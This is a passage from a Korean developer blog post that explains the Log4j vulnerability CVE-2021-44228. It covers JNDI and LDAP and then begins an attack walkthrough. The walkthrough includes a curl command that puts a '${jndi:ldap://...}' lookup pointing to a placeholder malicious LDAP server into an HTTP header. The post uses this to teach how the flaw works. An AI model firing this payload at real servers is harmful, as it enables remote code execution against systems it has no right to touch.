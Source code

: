 <p align="center">
    <img src="/images/log4j-vulnerability-CVE-2021-44228-2.JPG" width="55%" class="image__border">
</p>
<center>이미지 출처, https://docs.oracle.com/javase/tutorial/jndi/overview/index.html</center>

### 2.3. LDAP, Lightweight Directory Access Protocol

JNDI API를 이용하면 여러 종류의 디렉토리 서비스를 사용할 수 있지만, 이번 예시에서는 LDAP 서비스에 대해서만 간단히 알아보겠습니다. 

> The Lightweight Directory Access Protocol (LDAP /ˈɛldæp/) is an open, vendor-neutral, 
> industry standard application protocol for accessing 
> and maintaining distributed directory information services over an Internet Protocol (IP) network.

사용자, 시스템, 네트워크, 서비스 등의 정보를 공유하기 위한 목적으로 사용하는 프로토콜입니다. 
사용자 정보를 중앙 집중적으로 관리하는데 유용합니다. 
LDAP 프로토콜은 조직이나 개체, 인터넷이나 기업 내의 인트라넷 같은 네트워크 상에 위치한 파일이나 자원(resource) 등의 위치를 찾을 수 있도록 돕습니다. 
이 프로토콜을 지원하는 서버의 서비스를 이용하면 연결된 네트워크 내에 자원들을 쉽게 찾을 수 있습니다. 

## 3. 재현 테스트

개발자로서 가장 궁금한 내용이었습니다. 
해커는 어떻게 위의 세가지 기능(Log4j Lookups, JDNI, LDAP)을 이용하여 서버를 해킹할 수 있었을까요? 
해킹 시도 시나리오를 먼저 살펴보고, 간단한 테스트 코드를 통해 저의 PC들을 원격 조작해보겠습니다. 

### 3.1. 해킹 시도 시나리오

##### 1. 해커는 로그로 자주 출력되는 HTTP 헤더에 자신의 악성 LDAP 서버를 호출할 수 있는 정보를 담아 전달합니다. 
```
$ curl {VULNERABLE_TARGET} -H 'X-Api-Version: ${jndi:ldap://HACKERS_MALICIOUS_LDAP_SERVER/QUERY}'
```

##### 2. Log4j 보안 취약점을 가진 서버는 `${jndi:ldap://HACKERS_MALICIOUS_LDAP_SERVER/QUERY}` 값을 로그로 출력합니다.

##### 3. Log4j의 Lookups 기능으로 인해 자동적으로 프레임워크 내부에서 `jndi` 기능 호출을 인지하고, 해커의 악성 LDAP 서버로 요청을 보냅니다. 
- Log4j 프레임워크에서 `${jndi:...}` 키워드를 확인하고 자동적으로 `ldap://HACKERS_MALICIOUS_LDAP_SERVER/QUERY` 요청

